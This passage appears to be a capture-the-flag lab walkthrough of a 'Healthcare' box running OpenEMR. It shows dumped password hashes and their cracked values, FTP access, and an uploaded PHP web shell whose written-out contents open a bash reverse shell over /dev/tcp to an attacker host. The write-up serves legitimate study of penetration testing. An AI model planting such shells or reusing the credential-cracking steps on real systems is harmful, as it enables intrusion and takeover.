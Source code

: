 ```py
    print("[+] Exiting...")
    sys.exit()
```
After running the script, we get the hashes of 2 users.

{{< image src="/img/healthcare1/healthcare-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

```
admin : 3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical : ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```
We can try crack these hashes using hashcat/john the ripper but using crackstation.net would be quicker.

{{< image src="/img/healthcare1/healthcare-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Now we have passwords for both users.
```
admin : ackbar
medical : medical
```
# Shell as apache

With this credentials, let's get back to ftp. Only the credentials for medical user work.

{{< image src="/img/healthcare1/healthcare-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

On ftp we see that we have access to the file system as the medical user, and we can even access
the web server directory. 


Due to the permissions set we can only write to openemr directory. With this, we can upload a php file that will provide
a reverse shell.

{{< image src="/img/healthcare1/healthcare-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Contents of revshell.php:

```php
<?php system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/9000 0>&1 &'"); ?>
```
Making a request to the uploaded file using curl, we get the reverse shell.

{{< image src="/img/healthcare1/healthcare-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

After spawning a proper tty shell with python, we can switch to the medical user. In the Documents folder there's a 
Passwords.txt but the root creds don't work.

{{< image src="/img/healthcare1/healthcare-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}
